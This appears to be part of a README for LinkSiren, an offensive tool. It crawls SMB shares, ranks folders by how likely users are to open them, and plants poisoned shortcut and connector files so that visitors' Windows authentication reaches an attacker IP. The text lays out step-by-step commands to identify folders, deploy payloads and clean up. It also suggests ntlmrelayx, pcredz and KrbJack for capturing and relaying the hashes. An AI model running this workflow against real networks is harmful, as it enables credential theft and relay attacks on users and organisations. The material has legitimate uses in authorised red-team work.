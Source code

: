 ```bash
# 1. Create a targets file containing accessible shares, one per line, in the following format: \\server.domain.tld\share
#    I recommend crackmapexec or shareenum, make sure you can delete files you deploy

# 2. Use LinkSiren to identify the most active folders on them
#    Note: You may fine tune the --max-depth, --active-threshold, --fast, and --max-folders-per-share params as necessary
#    Note: Specify '.' as the domain to log in using a local user account
linksiren identify --username <username> --password <password> --domain <domain.tld> --targets <shares file>

# 3. Use LinkSiren to deploy payloads to all of the active folders
#    --identify saves UNC paths to active folders in folder_targets.txt
linksiren deploy --username <username> --password <password> --domain <domain.tld> --targets folder_targets.txt --attacker <attacker IP>

# 4. Let the hashes come to you and relay them as you see fit :)
#    Use CrackMapExec and LdapRelayScan for relay target identification
#    Use LdapRelayScan to determine if you can relay HTTP auth to LDAP
#    Use Impacket's ntlmrelayx for relay with pcredz for hash capture on the attacker machine
#    You could also use KrbJack to relay kerberos auth to a machine whose DNS record you've hijacked

# 5. Cleanup the payload files when you're finished gathering.
#    Set targets to a file containing UNC paths of all folders where payloads were written
#    --deploy saves UNC paths to deployed payloads in payload_folders.txt
#    Note: If you set a custom payload name (--payload) when deploying, you must set the same name here
linksiren cleanup --username <username> --password <password> --domain <domain.tld> --targets payloads_written.txt
```

## How is this better than the other tools?
As in real estate, the three most important things when attempting to coerce auth using files: location, location, location. All techniques identified here only coerce authentication from users that open the folder containing the poisoned file.

Other tools are built to place a single malicious .searchConnector-ms, .library-ms, or .url file at a specified location and clean up that one malicious file. If you find yourself with access to a lot of shares you may want things to scale and you may not be in the mood to write a wrapper. Additionally, you may not know the best place to put a poisoned file in a sea of accessible shares.

LinkSiren crawls shares you currently have access to and ranks every subfolder based on the liklihood it will be opened by a user sometime soon. Then it uses this information to target malicious file distribution to multiple locations at once. Additionally, LinkSiren records the full UNC path of malicious file it creates, allowing for cleanup with a single command.

Summary
- Scales to an arbitrary number of malicious .searchConnector-ms, .library-ms, .url, or .lnk files
- Targeted malicious file placement
- Single command deployment and cleanup
- Cross platform with python
